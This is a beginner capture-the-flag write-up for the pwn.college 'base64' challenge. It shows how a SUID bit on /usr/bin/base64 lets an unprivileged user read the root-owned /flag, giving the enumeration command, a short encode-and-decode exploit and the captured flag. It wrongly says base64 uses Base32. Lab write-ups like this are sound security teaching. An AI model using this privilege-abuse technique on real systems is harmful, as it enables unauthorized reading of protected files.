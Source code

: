 # Challenge Name: base64
**Category**: Program Misuse  
**Platform**: pwn.college  
**Difficulty**: Begineer
**Date**: 2025-07-15  
**Author**: Himanshu Parate

---

## 🧠 Summary:
The challenge abuses a SUID bit set on `/usr/bin/base64`, allowing an unprivileged user to read the root-owned flag file at `/flag`.

---

## 🔍 Enumeration

```bash
ls -l /usr/bin/base64
```

output:
```
-rwsr-xr-x 1 root root 47480 Sep  5  2019 /usr/bin/base64
```

-The `s` in `-rws` indicates it's a SUID binary.
-`base64` runs with **root privileges**.

## 🚀 Exploitation

The `base64` command lets you encode or decode data using Base32, a binary-to-text encoding scheme that uses 64 ASCII characters.

```bash
myflag=$(base64 /flag)
echo "$myflag" | base64 --decode
```

Output:
```
pwn.college{AIjzli7yf5eprqW3oN8f1QhQ1LX.ddTNxwSM0IzMyEzW}
```

      

